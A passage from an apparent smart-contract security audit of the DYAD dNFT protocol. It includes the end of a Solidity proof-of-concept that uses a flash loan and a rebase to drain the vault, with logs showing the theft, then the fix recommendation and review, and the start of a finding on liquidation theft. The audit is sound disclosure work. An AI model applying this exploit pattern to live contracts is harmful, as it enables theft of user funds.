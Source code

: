 ```solidity
    // Rebase to adjust totalDeposit up, even though we already bought at the higher value.
    dNft.rebase();

    // Now redeem the full value of the vault (not all of our assets, because it would revert).
    dNft.redeemDeposit(id2, attacker, address(dNft).balance * 1100);

    // Return the flash loan...
    payable(address(0)).transfer(1_000_000 ether);

    console.log("dNFT Vault Ending Balance: ", address(dNft).balance);
    console.log("Attacker Ending Balance: ", attacker.balance);
  }
```

```
Logs:
  dNFT Vault Starting Balance:  100000000000000000000
  Attacker Starting Balance:  5000000000000000000
  dNFT Vault Ending Balance:  0
  Attacker Ending Balance:  105000000000000000000
```

**Recommendation**
At the very least, all deposit, withdraw & redeem functions should use the ETH price saved in storage, and rebase() should be called at the beginning of each of those functions. This will ensure the two values are kept aligned for all transfers of value.

(Note: This also requires editing rebase() to ensure it simply exits early if an equal ETH price is returned, rather than reverting.)

However, that still leaves open the possibility that users can take advantage of price moves that haven't yet been reflected on the Chainlink Oracle to get a favorable price. I've seen a few different models for resolving this but all are complex: the best is probably to save "orders" and then process them at the next price from Chainlink, regardless of what it is.

**Review**
Timeout mechanism implemented in [PR #28](https://github.com/DyadStablecoin/contracts-v3/pull/28) and [PR #29](https://github.com/DyadStablecoin/contracts-v3/pull/29) with rebase modifier in [PR #24](https://github.com/DyadStablecoin/contracts-v3/pull/24) solves the immediate risk of this being exploitable to steal all the protocol funds.

Since the rebase modifier is used on all functions that access ETH price, the recommendation to pull ETH price from state is implemented in [PR #31](https://github.com/DyadStablecoin/contracts-v3/pull/31).

The larger concern around favorable prices is addressed in C-03.

### [H-02] Can steal all dNFTs and funds from contract by flash loaning deposits & liquidations

When liquidate() is called for a given dNFT ID, there are two requirements:

- The current shares of that ID must be less than 0.1% of the total shares in the pool
- The shares after the liquidator's funds are deposited must by greater than 0.1% of the total shares in the pool
